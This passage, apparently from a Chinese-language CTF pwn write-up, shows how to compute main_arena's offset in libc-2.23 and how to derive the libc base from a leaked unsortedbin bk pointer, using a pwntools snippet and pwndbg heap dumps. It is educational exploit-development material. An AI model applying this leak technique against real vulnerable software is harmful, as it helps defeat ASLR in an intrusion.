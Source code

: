 ```c
  return result;
}
```

![](malloc_trim.png)
可知本题所用libc与main_arena的偏移为 0x3C4B20

2. 利用malloc_hook算出
main_arena与malloc_hook的地址差为0x10，而malloc_hook的值可以用pwntools直接查到

![](malloc_hook_and_main_arena.png)


```python
main_arena_offset = ELF("libc-2.23.so").symbols["__malloc_hook"] + 0x10
```

利用这两种方法之一，便可以算出main_arena在libc中的偏移了，得出偏移为0x3C4B20
再获取bk和main_arena的偏移，即可计算libc_base

#### 计算bk与main_arena的偏移
可以直接调试获取
```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x6549ce9b1000
Size: 0x71

Allocated chunk | PREV_INUSE
Addr: 0x6549ce9b1070
Size: 0x21

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x6549ce9b1090
Size: 0xf51
fd: 0x7e344694bb78
bk: 0x7e344694bb78

Allocated chunk
Addr: 0x6549ce9b1fe0
Size: 0x10

Allocated chunk | PREV_INUSE
Addr: 0x6549ce9b1ff0
Size: 0x11

Allocated chunk
Addr: 0x6549ce9b2000
Size: 0x00

pwndbg> x/10gx 0x6549ce9b1070
0x6549ce9b1070: 0x6161616161616161      0x0000000000000021
0x6549ce9b1080: 0x6262626262626262      0x00007e344694c188
0x6549ce9b1090: 0x00006549ce9b1070      0x0000000000000f51
0x6549ce9b10a0: 0x00007e344694bb78      0x00007e344694bb78
0x6549ce9b10b0: 0x0000000000000000      0x0000000000000000
pwndbg> x/10gx 0x00007e344694c188
0x7e344694c188 <main_arena+1640>:       0x00007e344694c178      0x00007e344694c178
0x7e344694c198 <main_arena+1656>:       0x00007e344694c188      0x00007e344694c188
0x7e344694c1a8 <main_arena+1672>:       0x00007e344694c198      0x00007e344694c198
0x7e344694c1b8 <main_arena+1688>:       0x00007e344694c1a8      0x00007e344694c1a8
0x7e344694c1c8 <main_arena+1704>:       0x00007e344694c1b8      0x00007e344694c1b8
pwndbg>
```
可知偏移为main_arena+1640
